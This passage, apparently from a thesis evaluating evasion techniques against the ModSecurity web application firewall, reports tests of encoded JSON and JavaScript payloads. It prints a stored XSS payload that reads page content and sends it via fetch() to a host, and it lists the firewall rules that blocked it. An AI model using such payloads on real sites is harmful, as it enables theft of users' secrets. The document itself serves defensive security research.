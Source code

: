\subsection{Multi Iteration Evaluation}
This chapter states the evaluation results of multiple iterations of application of an evasion technique to the specified payloads. If a considerable (from the perspective of the author of this work) bypass was found, the result will be detailed. Evaluation results of finally blocked requests are referred to in attachment.


\subsubsection{Percent encoding + Unicode in JSON}
The ModSecurity firewall blocks requests containing unicode escaped characters in JSON. (see Section~\ref{sec:unicodeinjsontest})
In order to evade this rule, a payload containing a unicode escaped character is percent-encoded previous to submission. The ModSecurity firewall detects the unicode escape regardless and rejects the request. (see Listing~\ref{lst:jsonunicodeurlenctest})


\subsubsection{HTML encoding + JavaScript normal character escape}
The following payload could be used by an attacker intending to employ stored XSS to exfiltrate secrets \cite{swigger/storedxss}. It is blocked by the ModSecurity firewall based on 4 rule triggers:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

